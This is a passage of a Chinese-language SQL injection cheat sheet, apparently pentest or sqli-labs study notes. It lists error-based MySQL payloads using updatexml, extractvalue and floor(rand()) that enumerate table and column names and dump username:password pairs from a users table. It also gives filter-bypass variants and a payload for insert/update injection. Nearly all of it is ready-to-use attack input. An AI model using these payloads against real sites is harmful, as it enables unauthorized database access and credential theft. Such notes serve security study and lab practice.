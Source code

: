 2. 爆表

   ```
   //updatexml、ExtractValue型（只需替换参数个数）
   ?id=0' or updatexml(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'), 1) --+
   
   //follr型
   ?id=-1'union select count(*),1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+
   
   ?id=0'||updatexml(1,concat('~',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
   ```

3. 爆列

   ```
   ?id=0' or updatexml(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users替换表名'),'~'), 1) --+
   
   ?id=0'||updatexml(1,concat('~',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')&&(table_name='users'))),0)||'1'='1		//&&=%26%26
   ```

   

4. 爆值

   ```
   ?id=0' or updatexml(1, concat('~',(select group_concat(username,':',password) from users替换表名),'~'), 1) --+
   
   //有的时候，显示不全用not in，或用right()语句查询后面的部分
   ?id=0' or updatexml(1, concat('~',(select group_concat(username,':',password) from users替换表名 where username列名 not in ('上面查过的值','同左','同左')),'~'), 1) or --+
   ```

   

### insert/update注入

- **updatexml()**
  - **3个参数**，`and updatexml(1,payload,1) --+`
- **extractvalue()**
  - **2个参数**，`and extractvalue(1, payload) --+`

后台MySQL语句可能为：

```
insert into user (name) value ('PDD');
```

1. 爆库

   ```
   ?id=1' or updatexml(1, concat('~',database()), 0) or '
   ```
